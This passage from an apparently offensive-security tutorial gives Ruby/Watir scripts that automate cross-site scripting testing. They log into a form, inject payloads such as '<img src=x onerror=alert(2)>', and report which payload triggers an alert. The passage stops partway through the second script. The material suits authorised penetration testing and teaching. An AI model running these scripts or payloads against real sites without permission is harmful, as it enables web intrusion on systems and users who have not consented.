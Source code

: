 ```ruby
  @browser.button(value: 'Send').click
end

payloads =
    [
      '"><script>alert(1)</script>',
      '<img src=x onerror=alert(2)>'
    ]

puts "[*] Exploitation start"
puts "[*] Number of payloads: #{payloads.size} payloads"
payloads.each do |payload|
  print "\r[*] Trying: #{payload}"
  print "\e[K"
  sendpost payload

  if @browser.alert.exists?
    @browser.alert.ok
    puts "[+] Exploit found!: " + payload
    @browser.close
  end
end
```

### Dealing with tabs

One of scenarios I've faced is to exploit XSS a user profile fields and check the result in another page which present the public user's profile. Instead of revisiting the URLs again and again I open new tab and refresh the public user's profile page then return back to send the exploit and so on.

**xss\_tab.rb**

```ruby
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
#
require 'watir'
require 'uri'

@url = URI.parse "http://example.com/Users/User_Edit.aspx?userid=68"

@browser = Watir::Browser.new :firefox
@browser.window.resize_to(800, 600)
# @browser.window.move_to(540, 165)
@wait = Selenium::WebDriver::Wait.new(:timeout => 10)

@browser.goto "http://example.com/logon.aspx"

# Login
@browser.text_field(name: 'Login1$UserName').set("admin")
@browser.text_field(name: 'Login1$Password').set("P@ssword")
sleep 0.5
@browser.button(name: 'Login1$LoginButton').click

def sendpost(payload)
  begin

    @browser.switch                                                             # Make sure to focus on current tab/window
    @browser.goto "#{@url.scheme}://#{@url.host}/#{@url.path}?#{@url.query}"    # Goto the URL
    @wait.until {@browser.text_field(id: 'txtFullName').exists?}                # Wait until wanted text area appear
    @browser.text_field(id: 'txtFullName').set(payload)                         # Set payload to the text area
```